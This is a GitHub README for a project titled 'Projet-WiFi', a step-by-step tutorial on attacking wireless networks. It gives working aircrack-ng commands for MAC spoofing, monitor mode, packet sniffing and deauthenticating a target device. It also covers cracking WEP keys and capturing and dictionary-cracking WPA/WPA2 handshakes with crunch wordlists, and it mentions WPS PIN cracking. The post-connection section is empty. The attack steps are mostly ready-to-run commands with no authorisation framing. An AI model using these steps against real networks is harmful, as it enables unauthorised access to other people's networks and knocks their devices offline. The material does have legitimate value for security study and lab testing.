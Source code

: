 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. ✔️

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address of the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1: capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2: run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           <br/> Catch the handshake using "airodump-ng".
           <br/> The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           <br/> Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: create a wordlist/dictionnary: "crunch" command
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           <br/> Combining the useful information to the wordlist will create new MICs, which will be compared to the real MIC
           <br/> if(new_MIC == MIC), then the word generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method: exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
                   <br/> The WPS feature allows clients to connect without a password.
                   <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

### Post-connection attacks


